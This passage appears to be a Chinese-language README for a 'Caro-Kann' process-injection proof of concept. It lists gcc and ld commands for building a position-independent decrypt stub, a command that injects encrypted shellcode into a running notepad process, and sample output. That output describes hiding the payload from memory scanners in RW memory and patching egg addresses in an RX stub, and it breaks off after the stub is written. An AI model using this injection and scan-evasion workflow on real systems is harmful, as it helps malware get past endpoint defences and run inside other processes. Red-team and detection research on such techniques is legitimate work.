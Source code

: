 ⚠️ **这是最复杂的部分**，需要编译 Position-Independent Code (PIC)。

**Linux (推荐)**：
```bash
# 编译为目标文件
gcc -c decrypt_stub.c -o decrypt_stub.o \
    -Wall -m64 -ffunction-sections \
    -fno-asynchronous-unwind-tables \
    -nostdlib -fno-ident -O2 \
    -Wl,--no-seh -masm=intel

# 链接为可执行文件
ld -s decrypt_stub.o -o decrypt_stub.exe

# 提取 .text 节
extract_stub.exe decrypt_stub.exe decrypt_stub.bin
```

**Windows (MinGW)**：
```cmd
# 使用相同的命令
gcc -c decrypt_stub.c -o decrypt_stub.o -Wall -m64 -ffunction-sections -fno-asynchronous-unwind-tables -nostdlib -fno-ident -O2 -Wl,--no-seh -masm=intel

ld -s decrypt_stub.o -o decrypt_stub.exe

extract_stub.exe decrypt_stub.exe decrypt_stub.bin
```

### 运行注入

```cmd
# 启动目标进程
start notepad

# 注入
caro_kann.exe 1234 calc_encrypted.bin decrypt_stub.bin
```

**输出示例**：
```
[+] Caro-Kann Injection POC
[+] Encrypted Shellcode Memory Scan Evasion
[+] Original Research: S3cur3Th1sSh1t

[+] Target PID: 1234
[+] Encrypted payload: calc_encrypted.bin
[+] Decrypt stub: decrypt_stub.bin
[+] Opened target process
[+] Loaded encrypted payload: 65 bytes
[+] Loaded decrypt stub: 512 bytes
[+] Allocated RW memory for encrypted payload at: 0000000002D40000
[+] Wrote encrypted payload (65 bytes) to RW memory
[!] Memory scan will only see encrypted payload in RW section

[*] Patching decrypt stub eggs...
[+] Found Payload Address Egg at offset: 0x5
[+] Patched Payload Address Egg with value: 0000000002D40000
[+] Found Payload Size Egg at offset: 0x12
[+] Patched Payload Size Egg with value: 00000041
[+] Found Jump Address Egg at offset: 0xA8
[+] Patched Jump Address with: 0000000002D40000

[+] Allocated RX memory for decrypt stub at: 0000000002E50000
[+] Wrote decrypt stub (512 bytes) to RX memory

```